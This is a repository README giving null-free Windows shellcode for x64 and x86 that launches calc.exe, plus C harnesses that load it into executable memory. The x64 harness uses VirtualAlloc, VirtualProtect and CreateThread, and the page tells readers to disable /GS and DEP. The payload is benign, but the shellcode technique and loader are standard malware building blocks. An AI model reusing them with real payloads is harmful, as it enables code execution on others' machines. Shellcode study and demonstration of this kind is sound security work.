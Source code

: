 # WinShellcode

Windows(x32-x64) null-free shellcode to pop calc.exe


Feel free to contact if any question...





To run it successfully in Visual Studio, you’ll have to compile it with some protections disabled:


Security Check: Disabled (/GS-)


Data Execution Prevention (DEP): No


##########################################################
```
//testing: x64
//len: 265

#include <windows.h>
void main() {
    void* exec;
    BOOL rv;
    HANDLE th;
    DWORD oldprotect = 0;
    // Shellcode
    unsigned char payload[] =
        "\x50\x53\x51\x52\x57\x56\x55\x54\x41\x50\x41\x51\x41\x52\x41\x53\x41\x54\x41\x55\x41\x56\x41\x57\x41\x57\x48\x83\xec\x20\x48\x31\xdb\x65\x4c\x8b\x63\x60\x4d\x8b\x64\x24\x18\x49\x8b\x74\x24\x20\x48\xad\x48\x96\x48\xad\x4c\x8b\x78\x20\x4d\x31\xe4\x45\x8b\x67\x3c\x4d\x01\xfc\x4d\x31\xf6\x45\x8b\xb4\x24\x88\x00\x00\x00\x4d\x01\xfe\x4d\x31\xe4\x45\x8b\x66\x20\x4d\x01\xfc\xeb\x77\x48\x31\xff\x41\x8b\x3c\x9c\x4c\x01\xff\x48\xa7\x74\x09\x48\xff\xc3\x48\x83\xee\x08\xeb\xe9\x48\x31\xf6\x48\x31\xff\x41\x8b\x76\x24\x4c\x01\xfe\x66\x8b\x3c\x5e\x48\x31\xf6\x41\x8b\x76\x1c\x4c\x01\xfe\x4d\x31\xf6\x44\x8b\x34\xbe\x4d\x01\xfe\xeb\x14\x48\x31\xd2\x48\x83\xc2\x0a\x48\x83\xec\x20\x41\xff\xd6\x48\x83\xc4\x20\xeb\x38\xe8\x1d\x00\x00\x00\x43\x3a\x5c\x57\x69\x6e\x64\x6f\x77\x73\x5c\x53\x79\x73\x74\x65\x6d\x33\x32\x5c\x63\x61\x6c\x63\x2e\x65\x78\x65\x00\x59\xeb\xc7\xe8\x08\x00\x00\x00\x57\x69\x6e\x45\x78\x65\x63\x00\x5e\xe9\x76\xff\xff\xff\x48\x83\xc4\x20\x41\x5f\x41\x5f\x41\x5e\x41\x5d\x41\x5c\x41\x5b\x41\x5a\x41\x59\x41\x58\x5c\x5d\x5e\x5f\x5a\x59\x5b\x58\xc3";
    unsigned int payload_len = 263;
    exec = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    RtlMoveMemory(exec, payload, payload_len);
    rv = VirtualProtect(exec, payload_len, PAGE_EXECUTE_READ, &oldprotect);
    th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec, 0, 0, 0);
    WaitForSingleObject(th, -1);
}
```
############################################################
```
//testing: x32
//len: 193 byte

#include <stdio.h>

unsigned char sc[] = 	"\x50\x53\x51\x52\x57\x56\x55\x55\x89\xe5\x83\xec\x18\x31\xf6\x56\x68\x78\x65\x63\x00\x68\x57\x69\x6e\x45\x89\x65\xfc\x31\xf6\x64\x8b\x5e\x30\x8b\x5b\x0c\x8b\x5b\x14\x8b\x1b\x8b\x1b\x8b\x5b\x10\x89\x5d\xf8\x8b\x43\x3c\x01\xd8\x8b\x40\x78\x01\xd8\x8b\x48\x24\x01\xd9\x89\x4d\xf4\x8b\x78\x20\x01\xdf\x89\x7d\xf0\x8b\x50\x1c\x01\xda\x89\x55\xec\x8b\x50\x14\x31\xc0\x8b\x7d\xf0\x8b\x75\xfc\x31\xc9\xfc\x8b\x3c\x87\x01\xdf\x66\x83\xc1\x08\xf3\xa6\x74\x0a\x40\x39\xd0\x72\xe5\x83\xc4\x28\xeb\x3f\x8b\x4d\xf4\x8b\x55\xec\x66\x8b\x04\x41\x8b\x04\x82\x01\xd8\x31\xd2\x52\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x68\x6d\x33\x32\x5c\x68\x79\x73\x74\x65\x68\x77\x73\x5c\x53\x68\x69\x6e\x64\x6f\x68\x43\x3a\x5c\x57\x89\xe6\x6a\x0a\x56\xff\xd0\x83\xc4\x48\x5d\x5e\x5f\x5a\x59\x5b\x58\xc3";

int main()
{
	((void(*)())sc)();
	return 0;
}
```
##########################################################
